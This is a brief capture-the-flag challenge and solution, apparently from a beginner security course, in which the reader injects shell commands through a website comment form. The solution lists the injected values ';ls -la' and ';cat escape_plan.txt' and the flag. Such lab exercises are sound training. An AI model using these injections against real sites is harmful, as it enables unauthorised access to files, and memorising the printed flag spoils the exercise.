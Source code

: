 ### Dangerous Comment

One of the Yakoottees, Haruka, recently created a site where she posts photos of her favourite cars. We think it might be a front to store files containing their plans to break into the Superspin factory. Each page has a form on it where you can post comments. Try and use the form on this particular page to use command injection and find any files hidden in the same directory. Remember, to inject code you need to include two commands by including a semi-colon.

**Tip:** One of the files has the flag in it.

![image](img/c12image.png)

![image](img/c12secimage.png)

```
Step 1: ";ls -la"

Step 2: ";cat escape_plan.txt"

Flag : ULOJV5PEAAZCI
```